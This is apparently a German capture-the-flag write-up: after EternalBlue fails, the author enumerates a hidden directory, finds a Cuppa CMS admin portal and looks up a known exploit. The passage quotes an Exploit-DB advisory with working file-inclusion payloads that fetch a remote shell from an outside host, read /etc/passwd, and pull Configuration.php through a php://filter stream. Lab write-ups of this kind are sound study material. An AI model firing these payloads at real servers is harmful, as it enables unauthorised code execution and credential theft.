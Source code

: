 # Enumeration 

Da Eternal Blue nicht geklappt hat backtracking zu enumeration von /45kra24zxs28v3yd

-> gefunden /administrator
-> Dahinter liegt admin Portal vonCuppa CMS 
-> Versuch mit bekannten creds anzumelden- Erfolglos 

Schauen ob es vllt was bekanntes zum Exploiten gibt -> Erfolg

```
------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------ ---------------------------------
 Exploit Title                                                                                                                                                                                  |  Path
------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------ ---------------------------------
Cuppa CMS - '/alertConfigField.php' Local/Remote File Inclusion                                                                                                                                 | php/webapps/25971.txt
------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------ ---------------------------------
Shellcodes: No Results
```

# Exploiting 

```

#####################################################
DESCRIPTION
#####################################################

An attacker might include local or remote PHP files or read non-PHP files with this vulnerability. User tainted data is used when creating the file name that will be included into the current file. PHP code in this file will be evaluated, non-PHP code will be embedded to the output. This vulnerability can lead to full server compromise.

http://target/cuppa/alerts/alertConfigField.php?urlConfig=[FI]

#####################################################
EXPLOIT
#####################################################

http://target/cuppa/alerts/alertConfigField.php?urlConfig=http://www.shell.com/shell.txt?
http://target/cuppa/alerts/alertConfigField.php?urlConfig=../../../../../../../../../etc/passwd

Moreover, We could access Configuration.php source code via PHPStream 

For Example:
-----------------------------------------------------------------------------
http://target/cuppa/alerts/alertConfigField.php?urlConfig=php://filter/convert.base64-encode/resource=../Configuration.php

```
